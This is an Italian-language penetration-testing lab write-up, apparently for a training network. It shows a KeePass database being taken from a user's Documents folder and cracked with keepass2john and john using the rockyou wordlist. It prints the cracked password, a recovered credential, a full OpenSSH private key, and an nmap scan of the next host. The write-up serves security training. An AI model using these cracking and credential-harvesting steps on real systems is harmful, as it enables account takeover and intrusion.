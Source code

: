Nella directory C:\Users\milana\Documents trovo un altro database keepass. Lo trasferisco sulla mia macchina e provo a crackarlo.

Utilizzando john riesco a ricavare la password per aprirlo:

```bash
keepass2john database.kdbx > Keepasshash.txt

john --wordlist=/usr/share/wordlists/rockyou.txt Keepasshash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (KeePass [SHA256 AES 32/64])
Cost 1 (iteration count) is 60 for all loaded hashes
Cost 2 (version) is 2 for all loaded hashes
Cost 3 (algorithm [0=AES 1=TwoFish 2=ChaCha]) is 0 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
destiny1         (database)     
1g 0:00:00:00 DONE (2024-05-26 12:53) 33.33g/s 52800p/s 52800c/s 52800C/s joyce..danilo
Use the "--show" option to display all of the cracked passwords reliably
Session completed.  
```

Qui dentro trovo la seguente credenziale:

```bash
sarah:placeholder
```

E una chiave privata openssh:

```bash
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACBEhRgOw+Adwr6+R/A54Ng75WK1VsH1f+xloYwIbFnoAwAAAJgtoEZgLaBG
YAAAAAtzc2gtZWQyNTUxOQAAACBEhRgOw+Adwr6+R/A54Ng75WK1VsH1f+xloYwIbFnoAw
AAAECk3NMSFKJMauIwp/DPYEhMV4980aMdDOlfIlTq3qy4SkSFGA7D4B3Cvr5H8Dng2Dvl
YrVWwfV/7GWhjAhsWegDAAAADnRlc3RzQGhhdC13b3JrAQIDBAUGBw==
-----END OPENSSH PRIVATE KEY-----
```

## 172.16.X.19 {pwned:local&proof}

```bash
sudo nmap -sC -sV -O 172.16.156.19
```

```bash
Nmap scan report for 172.16.156.19 (172.16.156.19)
Host is up (0.023s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 61:d7:77:83:c6:48:69:ca:42:35:0e:62:c3:30:b7:b4 (RSA)
|   256 c7:62:4a:de:a5:b4:f1:2a:5a:f3:a1:d8:d3:96:1b:8d (ECDSA)
|_  256 f2:94:b5:71:88:a1:f8:c5:d9:47:77:6b:07:ae:27:a0 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
OS fingerprint not ideal because: Missing a closed TCP port so results incomplete
No OS matches for host
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
